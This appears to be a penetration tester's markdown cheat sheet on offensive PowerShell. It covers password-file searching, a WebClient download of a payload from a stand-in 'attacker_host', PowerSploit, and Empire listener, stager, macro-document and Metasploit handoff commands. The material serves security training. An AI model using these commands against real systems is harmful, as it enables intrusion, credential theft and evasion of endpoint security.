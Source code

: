 ### PowerShell 4 Pentesters
#### 1.1 Intro
Why PowerShell?  
Run, download or execute code, entirely within the memory process of the powershell executable
letting penetration testers evade endpoint security solutions.  
Living-off-the-Land = using tools that are likely already "trusted" on system

Location  
32bit: C:\windows\system32\WindowsPowershell\*  
64bit: C:\windows\SysWOW64\WindowsPowerShell\*  

C:\> powershell.exe -ExecutionPolicy Bypass ./script.ps1

_1.1.1 Useful Cmdlets_   
//PS = PowerShell 
```
Get-Process
PS C:\> Get-Process chrome,firefox | Sort-Object -Unique | Format-List Path,Id //Get information about specific processes and paths to their executables.
PS C:\> Get-Process -Name "firefox" | Kill //Kills any firefox processes

Get-WmiObject
PS C:\> Get-WmiObject -class win32_operatingsystem | select -Property * //All information related to current operating system
PS C:\> Get-WmiObject -class win32_operatingsystem |Sort-Object -Unique PathName | fl Pathname //Paths to all service executables

Finding Files
PS C:\> Select-String -Path C:\users\christian\Documents\*.txt -Pattern pass* //Search for files of txt extension in user's 
Documents directory containing the string "pass"
PS C:\> Get-Content C:\users\christian\Documents\passwords.txt //Display full contents of file
PS C:\> Get-ChildItem C:\PowerShell\ | Where-Object {$_.Name -match “xls”} //List contents of directory and return files with string in their name (xls)
PS C:\> Get-Service //Lists all services

New-Object
PS C:\> $webclient = New-Object System.Net.WebClient
PS C:\> $payload_url = "https://attacker_host/payload.exe"
PS C:\> $file = "C:\ProgramData\payload.exe"
PS C:\> $webclient.DownloadFile($payload_url,$file)

//Use .NET system class to download a file to a target system. Where the $file variable is location where payload is saved. 

```
_1.1.2 Modules_
```
PS C:\> Get-Module //List all currently imported modules
PS C:\> Import-Module ./module.psm1 //Import module into current PS session

Modules need to be copied into the module path, specified by the PS environment variable, to find these paths:
PS C:\> $Env:PSModulePath

PowerSploit Module
//Download PowerSploit archive, extract it and copy its contents into chosen module directory into folder called "PowerSploit"
PS C:\> Import-Module PowerSploit
PS C:\> Get-Command -Module PowerSploit //list all PowerSploit associated cmdlets
PS C:\> Get-Help Write-HihackDLL //Get help and usage for a specific cmdlet
```
#### 1.2 Offensive PowerShell
Empire PowerShell Framework
```
Basics/Server-Side Commands
listeners //lists listeners
uselistener //select listener to use
info //listener options
//Generate SSL certificate for listener, run cert.sh script in Empire setup folder.

usestager //available stagers to choose
usestager multi/launcher
set Listener http
//Copy & paste generated payload into compromised C shell, to activate agent.

agents //lists available agents
interact agentID //interact with selected agent

Empire: AgentID> shell whoami / shell whoami /GROUPS
usemodule //lists modules 
searchmodule <keyword> ex. check //lists all modules that match check

Client-Side
Usestager windows/macro //Generate macro code for embedding in Word document 
Set Listener http
Set OutFile /root/Tools/Empire/data/macro
Execute //Macro code will be saved to directory
//Open Visual Basic editor in MS Word and paste generated macro code, save file as .doc

Transfer Empire Agent to Metasploit
/Metasploit
msf> use exploit/script/web_delivery //set SRVHOST and LHOST as attacker machine
set target 2
exploit //generates exploit URL to copy into Empire

/Empire
usemodule powershell/code_execution/invoke_metasploitpayload //use URL from web delivery exploit in msf, and agent value to agent to be transferred to msf.
```
```
UAC Bypass

```
